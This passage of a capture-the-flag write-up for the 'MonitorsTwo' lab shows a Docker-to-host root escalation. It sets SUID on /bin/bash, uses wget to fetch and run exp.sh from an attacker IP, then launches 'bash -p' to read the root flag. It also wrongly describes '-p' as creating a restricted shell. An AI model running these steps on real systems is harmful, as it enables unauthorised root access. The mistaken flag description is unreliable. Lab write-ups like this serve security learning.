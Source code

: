 - so first off, we obtain root access on the docker container (which we already did by exploit capsh binary earlier. With this root access, we run the following and this is just to set the SUID bit on the /bin/bash file

```shell
chmod u+s /bin/bash
```

![](assets/MonitorsTwo_assets/Pasted%20image%2020230916132059.png)

- then we get the exploit on the host system, make it executable and run it

```
wget http://10.10.14.76/exp.sh
chmod +x exp.sh
./exp.sh
```

- then we also confirm "yes" that we have set the suid bit bit on /bin/bash
- after running the exploit on our target host,  then we change to the path of our docker container on our host, which also contains the /bin/bash binary, and then we can run the command

```shell
./bin/bash -p
```

```ad-info
the `-p` option creates a new restricted shell environment
```

- and we have access as root

![](assets/MonitorsTwo_assets/Pasted%20image%2020230916131939.png)

- so now we can view our root flag

![](assets/MonitorsTwo_assets/Pasted%20image%2020230916133222.png)
